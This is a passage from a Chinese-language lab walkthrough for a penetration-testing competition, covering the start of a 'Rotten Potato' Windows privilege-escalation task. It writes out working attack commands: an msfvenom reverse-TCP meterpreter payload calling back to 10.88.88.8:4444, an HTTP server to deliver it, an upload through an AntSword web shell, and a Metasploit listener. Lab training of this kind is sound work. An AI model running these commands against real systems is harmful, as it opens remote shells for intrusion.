 ![image-20220617161932342628-1655869751127944.png](img/网络安全渗透赛 Local.assets/a0b4694f10deb6245d7b4aa0bf084e56.png)

终端中执行命令查看权限：

```
whoami
```

![image-20220617162008582211-1655869752346008.png](img/网络安全渗透赛 Local.assets/708a956df50abeb191fb3522d0d23752.png)

##### 任务2：烂土豆提权(T1068 -  利用漏洞进行权限升级)

登录`Kali`主机右键打开终端，执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.88.88.8 lport=4444 -f exe > shell.exe
```

![image-20220617162252875548-1655869753543876.png](img/网络安全渗透赛 Local.assets/98eb49ee887ca36b86bf0f69070b7d94.png)

输入命令建立Web服务：

```
python3 -m http.server 8888
```

![image-20220617162334217056-1655869754755499.png](img/网络安全渗透赛 Local.assets/894b0706b97454e284396d34faca71df.png)

回到`Win10`主机，浏览器访问`http://10.88.88.8:8888`：

![image-20220617162431469279-1655869755954274.png](img/网络安全渗透赛 Local.assets/56981c5f413fcd185b5b4fc72560f750.png)

点击`shell.exe`进行下载：

![image-20220617162453838198-1655869757170836.png](img/网络安全渗透赛 Local.assets/f6a97a3a7499248f4f5cf256d08b7591.png)

点击`全部显示`>>`保留`：

![image-20220618111353870181-1655869758381428.png](img/网络安全渗透赛 Local.assets/7b63a1b7358728ea1eb037cc03bc0647.png)

![image-20220617162519442463-1655869759605888.png](img/网络安全渗透赛 Local.assets/5e4dcebd5c0eaf95958326cd0f15101d.png)

![image-20220617162528906003-1655869760813192.png](img/网络安全渗透赛 Local.assets/da2f4a756a843fd3a3dc8de8dab76738.png)

蚁剑中双击URL进入文件目录，将`shell.exe`拖拽到蚁剑目录中：

![image-20220617162623535976-1655869762027200.png](img/网络安全渗透赛 Local.assets/549bce235fa27d8ea90d110e4ec54527.png)

`Kali`主机中打开新的终端启动监听：

```
msfconsole

use exploit/multi/handler 

set payload windows/meterpreter/reverse_tcp

set lhost 10.88.88.8  

set lport 4444  

run
```

